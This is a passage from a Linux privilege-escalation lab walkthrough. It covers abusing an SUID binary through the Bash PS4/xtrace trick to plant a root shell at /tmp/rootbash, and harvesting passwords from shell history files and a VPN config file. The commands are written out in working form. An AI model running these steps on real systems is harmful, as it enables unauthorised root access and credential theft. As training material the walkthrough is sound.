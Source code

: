 4. Run the suid-env2 executable to gain a root shell:

```
/usr/local/bin/suid-env2
```

## SUID / SGID Executables - Abusing Shell Features (#2) 


Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

1. Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

2. Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

## Passwords & Keys - History Files 

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

1. View the contents of all the hidden history files in the user's home directory:

```
cat ~/.*history | less
```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

## Passwords & Keys - Config Files 
Config files often contain passwords in plaintext or other reversible formats.

1. List the contents of the user's home directory:

```
ls /home/user
```

2. Note the presence of a myvpn.ovpn config file. View the contents of the file:

```
cat /home/user/myvpn.ovpn
```

## Passwords & Keys - SSH Keys 
